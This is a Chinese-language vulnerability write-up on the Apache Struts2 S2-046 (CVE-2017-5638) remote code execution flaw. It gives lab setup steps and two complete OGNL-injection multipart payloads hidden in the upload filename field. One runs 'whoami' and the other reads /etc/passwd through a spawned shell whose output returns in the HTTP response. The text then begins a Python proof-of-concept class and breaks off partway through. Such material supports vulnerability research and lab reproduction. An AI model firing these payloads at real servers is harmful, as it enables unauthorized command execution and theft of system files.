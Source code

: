 ### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,在struts.xml中添加一行\<constant name="struts.multipart.parser" value="jakarta-stream" />.在Struts使用Jakarta默认配置时,数据流并没有经过JakartaStreamMultiPartRequest.根据官方解释,在Struts 2.3.20以上的版本中,Struts2才提供了可选择的通过Streams实现Jakarta组件解析的方式.在Struts 2.3.20以上的版本中,通过Jakarta组件实现Multipart解析的流程可以有两种,一种是默认的Jakarta组件,一种是在struts.xml中主动配置<constant name="struts.multipart.parser" value="jakarta-stream" />.而只有在struts.xml中添加了相应配置,数据流才会经过JakartaStreamMultiPartRequest.然后配置好Tomcat就可以运行了.

### Payload

#### 执行命令

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

#### 读取文件

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests
    
class S2_046_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-046漏洞,又名CVE-2017-5638漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10',
            'date': '2017-03-19',
```